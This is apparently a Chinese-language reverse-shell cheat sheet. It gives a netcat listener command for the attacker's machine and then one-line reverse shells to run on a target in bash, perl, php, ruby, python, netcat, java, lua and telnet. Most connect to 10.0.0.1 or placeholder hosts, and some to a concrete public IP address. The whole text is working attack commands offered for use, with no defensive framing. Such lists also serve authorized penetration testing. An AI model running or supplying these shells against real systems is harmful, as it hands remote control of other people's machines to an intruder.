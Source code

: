 本机开启监听：

```
nc -lvnp 4444
nc -vvlp 4444
```

目标机器开启反弹
bash版本：

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


perl版本：

```shell
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


php版本：

```shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


ruby版本：

```shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


python版本：

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


nc版本：

```shell
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999
```


java版本：

```shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


lua版本：

```shell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```


NC版本不使用-e参数：

```shell
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc x.x.x.x 4444 1>/tmp/backpipe
/bin/bash -i > /dev/tcp/173.214.173.151/8080 0<&1 2>&1

mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```


